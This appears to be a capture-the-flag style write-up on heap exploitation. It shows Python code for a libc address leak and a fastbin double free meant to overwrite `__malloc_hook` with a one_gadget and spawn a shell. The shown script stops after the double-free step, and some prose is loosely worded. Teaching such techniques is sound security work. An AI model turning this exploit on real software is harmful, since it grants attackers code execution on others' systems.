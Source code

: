 **Part 2: exploiting ~~`__free_hook`~~ `__malloc_hook` to spawn a shell**

```python
chunk_c = alloc(size)
chunk_d = alloc(size)

free_chunk(chunk_c)
free_chunk(chunk_d)
free_chunk(chunk_c)
```

By allocating two chunks and freeing both of them, and again the first one, we will get a loop: `chunk_1` points to `chunk_2` and vice versa. Then

```python
chunk_A = alloc(SIZE)
write_chunk(b'A'*8)

chunk_B = alloc(SIZE)
chunk_C = alloc(SIZE)
# trigger
chunk_D = alloc(SIZE)
```

Will result in `0x4141414141414141` becoming ?. Now we can put the address of `__free_hook ` in its place.

Still the program crashes because the `malloc` realizes that there's a mismatch with the size of the bin. We need to find some bytes not zeroed that are located before our target and try to match the size with those bytes, since they will be our new size for the chunk.

If we do not find those bytes we can search elsewhere, for example near `__malloc_hook`.

We find that before `__malloc_hook` we have an address, but we know that after translating it to decimal it would be a gigantic number. We could exploit the alignment to take only part of it. For example we can go from `0x7ffff7...` to `0x7f`. To align we just add some bytes to the address of the cell to 'cut' its content according to our needs.

Then we take the address of that cell, we compute its offset, and put it in our script in place of `__malloc_hook`. Full exploit:

```python
# part 1: leaking libc address
input('press any key to start exploiting...')
chunk_a = alloc(0x200)
chunk_b = alloc(0x30)
free_chunk(chunk_a)
libc_leak = u64(read_chunk(chunk_a)[:6]+b"\x00\x00")

# libc base address found by checking the base of libc with
# mmap in gdb, and then computing the difference wrt the
# address just printed
libc_base = libc_leak - 0x3c4b78
malloc_hook = libc_base + malloc_hook_offset
one_gadget = libc_base + magic_gadget

print('[!] malloc_hook: %#x' % malloc_hook)
print('[!] libc_leak: %#x' % libc_leak)
print('[!] libc_base: %#x' % libc_base)
print('[!] one_gadget: %#x' % one_gadget)

# part 2: the exploit
chunk_c = alloc(size)
chunk_d = alloc(size)

# we created the loop
free_chunk(chunk_c)
free_chunk(chunk_d)
free_chunk(chunk_c)
```